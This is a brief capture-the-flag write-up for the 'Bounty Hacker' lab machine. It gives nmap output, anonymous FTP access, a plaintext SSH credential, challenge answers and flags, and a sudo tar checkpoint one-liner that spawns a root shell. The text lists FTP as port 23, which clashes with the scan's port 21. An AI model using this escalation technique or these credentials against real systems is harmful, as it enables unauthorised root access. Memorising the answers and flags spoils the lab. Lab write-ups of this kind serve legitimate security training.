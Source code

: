 # Bounty Hacker
# By 0xRar

## machine_ip: *.*.*.*

## nmap result:
```
Not shown: 969 filtered ports, 28 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.32.95
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## ports : 
```
ftp=23 anonymous login enabled
ssh=22 user: lin , password: RedDr4gonSynd1cat3
```


##  Who wrote the task list?:
```
From the task.txt
Answer: lin
```

## What service can you bruteforce with the text file found?:
```
Answer: ssh
```

## user.txt:
```
Answer: THM{CR1M3_SyNd1C4T3}
```

## priv esc
```
lin@bountyhacker:~/Desktop$ find / -perm /4000 2>/dev/null

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

```

## root.txt:
```
Answer: THM{80UN7Y_h4cK3r}

```


```
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```
